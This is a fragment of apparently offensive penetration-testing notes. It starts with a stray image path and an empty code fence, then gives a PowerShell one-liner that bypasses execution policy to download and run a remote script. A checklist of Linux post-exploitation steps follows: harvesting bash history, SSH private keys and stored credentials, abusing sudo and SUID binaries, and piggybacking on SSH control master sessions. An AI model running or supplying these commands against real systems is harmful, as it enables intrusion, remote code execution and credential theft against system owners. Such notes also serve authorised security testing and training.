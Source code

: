 ```csharp
</script>
```

### Code Execution
- Cmd
```powershell
powershell -exec bypass iex (new-object net.webclient).downloadstring('http://192.168.x.y/run.txt')
```

## Local Reconnaissance On Linux
### Bash History

- Check current user's bash history

- Check every user's bash history after escalating to root

### SSH Key

- id_rsa

Could in other name such as **bob.key**

/home/bob/.ssh/id_rsa could be alice's private key

- known_host (Which you can access)

Servers that current user's private key can access. Could be hashed

- authorized_key

Clients have been connected to this server as current user

### Credential in config/text files

- Config file of web app

- Credential reuse

### Database

- Stored Credential in table

- Credential reuse

### sudo -l

- GTFOBins

### suid

- GTFOBins

### SSH control master

A ->B: A has a session on B, piggybacking A's access to B
```
~/.ssh/config or /etc/ssh/ssh_config
```
